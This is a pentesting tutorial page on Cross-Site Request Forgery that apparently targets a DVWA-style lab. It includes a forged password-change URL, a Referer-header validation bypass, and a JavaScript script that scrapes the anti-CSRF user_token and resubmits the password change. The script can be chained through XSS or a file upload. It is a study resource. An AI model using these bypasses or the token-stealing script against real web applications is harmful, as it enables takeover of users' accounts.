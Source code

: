 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Site Request Forgery

Also known as CSRF, exploits the trust a web application has in the user’s browser. Trick a website to perform unwanted actions on a web application where a user is authenticated. This allows to send requests from off the site that the server will consider valid.

We can find a typical example of this vulnerability as follows:

* A site shows information about actions related to specific users, and whose data should remain confidential

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Imagine we fill out a form to change the actual password of an account
#We change the password to $newpass
#We can see that the site processes the request and shows the data related to the action in the URL
http://$url/?password_new=$newpass&password_conf=$newpass&Change=Change

#As the session remains active even when closing the tab of the site, this will allow changes even from off the site
```
{% endcode %}

***

* Sometimes, it will not work directly, so we will need to check the source code to see the input conditions

{% tabs %}
{% tab title="Case 1" %}
Sometimes a validation could be done via request headers

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
...
```
{% endcode %}

In this case, we can modify our petition to assign the corresponding headers and bypass the validation

{% code title="Modified pettion" overflow="wrap" lineNumbers="true" %}
```http
...
Referer: http://$UrlOfProperSite/
...
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
Sometimes a validation could be done via a token generated in every page refresh

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/?password_new=$newpass&password_conf=$newpass&token=$token
```
{% endcode %}

We can search for this information in the source code of the page to confirm

<pre class="language-html" data-title="index.html" data-overflow="wrap" data-line-numbers><code class="lang-html">...
<strong>&#x3C;input type='hidden' name='user_token' value='5a92a11e5ff6dc8e94ae2d469c615e0d' />
</strong>...
</code></pre>

We see the token in this case is named _user\_token._ Knowing this, we can try to catch the token generated for the user and resend the petition to be validated. For this purpose, we can use the following script:

{% code title="CSRF.js" overflow="wrap" lineNumbers="true" %}
```javascript
fetch("http://tcmserver:8001/vulnerabilities/csrf/")
  .then((response) => response.text())
  .then((text) => {
    const parser = new DOMParser();
    const htmlDocument = parser.parseFromString(text, "text/html");
    const csrfToken = Array.from(htmlDocument.querySelectorAll("input")).filter(
      (input) => input.name === "user_token"
    )[0].value;
    console.log(csrfToken);
    const newPass = "newpass";
    const url = `http://tcmserver:8001/vulnerabilities/csrf/?password_new=${newPass}&password_conf=${newPass}&Change=Change&user_token=${csrfToken}`;
    fetch(url);
    console.log("Password changed to: " + newPass);
  });
```
{% endcode %}

{% hint style="info" %}
This can be done directly from the browser console, via an XSS vulnerable part, or a file upload vulnerable part
{% endhint %}

This will catch the token from the HTML of the site, show it to us, and immediately send another petition with this information to properly validate the changes
{% endtab %}
{% endtabs %}
